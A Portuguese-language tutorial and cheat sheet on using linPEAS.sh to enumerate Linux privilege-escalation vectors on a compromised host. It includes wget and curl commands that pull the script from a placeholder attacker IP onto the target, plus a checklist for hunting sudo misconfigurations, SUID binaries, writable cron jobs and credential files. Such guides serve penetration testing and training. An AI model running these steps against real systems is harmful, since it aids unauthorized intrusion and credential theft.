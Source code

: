 ```yaml
---

# 🛠️ **linPEAS.sh – Explicação Detalhada e Guia de Uso para Escalonamento de Privilégios**

## 📌 O que é o linPEAS?

O `linpeas.sh` é parte da suíte **PEASS-ng (Privilege Escalation Awesome Scripts Suite)**. Ele é um **script automatizado de enumeração de pós-exploração** para **sistemas Linux**, criado com o objetivo de **identificar vetores de escalonamento de privilégios**.

É usado por pentesters, CTF players e red teamers para acelerar a fase de **reconhecimento local** em um sistema comprometido.

---
```


## 🧠 Como o linPEAS funciona?

O `linpeas.sh` executa uma grande quantidade de **checks automáticos**, divididos em várias categorias. Ele busca por:

### 🔍 Informações que podem indicar falhas ou oportunidades de escalonamento, como:
- **Binários SUID/SGID incomuns**
- **Permissões incorretas em arquivos críticos**
- **Crontabs mal configurados**
- **Serviços rodando como root**
- **Tokens, credenciais, ou arquivos sensíveis**
- **Versões vulneráveis de software**
- **Caminhos de PATH manipuláveis**
- **Possibilidade de escape de restrições como chroot, Docker, LXC, etc**
- **Acesso a serviços de administração como sudoers mal configurados**
- **Acesso a scripts, binários ou backups com falhas**

Cada uma dessas descobertas vem com **dicas ou sugestões** visíveis no próprio output.

---

## 🧪 Como utilizar o linpeas.sh na prática?

### 📥 1. Transferir para o alvo

```bash
# Com wget
wget http://IP_DO_ATACANTE/linpeas.sh -O /tmp/linpeas.sh

# Com curl
curl http://IP_DO_ATACANTE/linpeas.sh -o /tmp/linpeas.sh

chmod +x /tmp/linpeas.sh
```

---

### 🚀 2. Executar o linPEAS

```bash
./linpeas.sh
# Ou:
./linpeas.sh > /tmp/saida_linpeas.txt
```

**Executar com sudo (se possível):**

```bash
sudo ./linpeas.sh
```

**Executar com bash:**

```bash
bash -c "./linpeas.sh"
```

---

## 📊 Interpretação da saída

- 🟩 Verde: Informações gerais
- 🟨 Amarelo: Algo potencialmente explorável
- 🟥 Vermelho: Alta criticidade – possível vetor direto

---

# ✅ **CHEATSHEET DE ESCALONAMENTO – linPEAS.sh**

Use essa checklist como referência rápida para análise dos resultados do linPEAS:

---

### 🔐 **Permissões Elevadas**
- [ ] `sudo -l`: comandos sudo sem senha (`NOPASSWD`)
- [ ] Binários SUID/SGID não comuns
- [ ] Capabilities incomuns (`getcap -r / 2>/dev/null`)
- [ ] `suid` com permissões write em diretórios

---

### 🧨 **Execução como Root**
- [ ] Crontabs rodando como root (scripts manipuláveis)
- [ ] Serviços iniciados como root (systemd, init.d)
- [ ] Unit files modificáveis em `/etc/systemd/system/`

---

### 🔓 **Informações Sensíveis**
- [ ] Arquivos `.bash_history`, `.ssh/`, `.aws/`, `.git/`
- [ ] Arquivos com "senha", "password", "credencial", `.env`
- [ ] Dumps de banco de dados ou arquivos `.bak`/`.old`
- [ ] Arquivos world-readable em `/home`, `/var/backups`

---

### 🧬 **Ambiente e Configuração**
- [ ] Variável de ambiente `PATH` manipulável
- [ ] Programas no PATH de usuários com write perms
- [ ] Executáveis com código em pastas `tmp`, `dev`, etc

---

### 📦 **Softwares e Versões Vulneráveis**
- [ ] Kernels vulneráveis (`uname -a`)
- [ ] Softwares desatualizados (Apache, MySQL, sudo, etc.)
- [ ] Docker mal configurado (`docker.sock`, root inside container)
- [ ] Ferramentas de backup vulneráveis (tar, rsync, cp, etc)

---

### 🧠 **Ferramentas de Abuso**
- [ ] Uso de [GTFOBins](https://gtfobins.github.io/) para explorar SUID
- [ ] Verificação de scripts com comandos externos (`sh`, `cp`, `tar`)
- [ ] Verificação com `pspy` para tarefas agendadas em tempo real

---

## 📚 Recursos complementares

- 🔗 [linPEAS GitHub (PEASS-ng)](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- 🔗 [GTFOBins](https://gtfobins.github.io/)
- 🔗 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

---
